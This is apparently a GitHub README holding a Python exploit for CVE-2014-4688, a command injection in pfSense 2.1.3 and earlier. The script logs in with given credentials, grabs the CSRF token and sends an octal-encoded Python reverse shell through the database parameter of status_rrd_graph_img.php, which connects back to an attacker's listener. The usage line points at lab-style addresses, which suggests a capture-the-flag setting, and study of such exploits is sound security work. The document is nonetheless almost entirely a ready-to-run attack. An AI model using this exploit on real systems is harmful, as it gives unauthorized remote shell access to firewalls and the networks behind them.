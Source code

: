 INFO
----

pfSense before 2.1.4 allows remote authenticated users to execute arbitrary commands via (1) the hostname value to diag_dns.php in a Create Alias action, (2) the smartmonemail value to diag_smart.php, or (3) the database value to status_rrd_graph_img.php.

Usage
-----

    python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 9999 --username rohit --password pfsense

pfsense.py
----------


    #!/usr/bin/env python3

    # Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
    # Date: 2018-01-12
    # Exploit Author: absolomb
    # Vendor Homepage: https://www.pfsense.org/
    # Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
    # Version: <=2.1.3
    # Tested on: FreeBSD 8.3-RELEASE-p16
    # CVE : CVE-2014-4688

    import argparse
    import requests
    import urllib
    import urllib3
    import collections

    '''
    pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
    This script will return a reverse shell on specified listener address and port.
    Ensure you have started a listener to catch the shell before running!
    '''

    parser = argparse.ArgumentParser()
    parser.add_argument("--rhost", help = "Remote Host")
    parser.add_argument('--lhost', help = 'Local Host listener')
    parser.add_argument('--lport', help = 'Local Port listener')
    parser.add_argument("--username", help = "pfsense Username")
    parser.add_argument("--password", help = "pfsense Password")
    args = parser.parse_args()

    rhost = args.rhost
    lhost = args.lhost
    lport = args.lport
    username = args.username
    password = args.password


    # command to be converted into octal
    command = """
    python -c 'import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("%s",%s));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);'
    """ % (lhost, lport)


    payload = ""

    # encode payload in octal
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))

    login_url = 'https://' + rhost + '/index.php'
    exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

    headers = [
        ('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
        ('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
        ('Accept-Language', 'en-US,en;q=0.5'),
        ('Referer',login_url),
        ('Connection', 'close'),
        ('Upgrade-Insecure-Requests', '1'),
        ('Content-Type', 'application/x-www-form-urlencoded')
    ]

    # probably not necessary but did it anyways
    headers = collections.OrderedDict(headers)

    # Disable insecure https connection warning
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    client = requests.session()

    # try to get the login page and grab the csrf token
    try:
        login_page = client.get(login_url, verify=False)

        index = login_page.text.find("csrfMagicToken")
        csrf_token = login_page.text[index:index+128].split('"')[-1]

    except:
        print("Could not connect to host!")
        exit()

    # format login variables and data
    if csrf_token:
        print("CSRF token obtained")
        login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
        login_data = collections.OrderedDict(login_data)
        encoded_data = urllib.parse.urlencode(login_data)

    # POST login request with data, cookies and header
        login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
    else:
        print("No CSRF token!")
        exit()

    if login_request.status_code == 200:
            print("Running exploit...")
    # make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
            try:
                exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
                if exploit_request.status_code:
                    print("Error running exploit")
            except:
                print("Exploit completed")
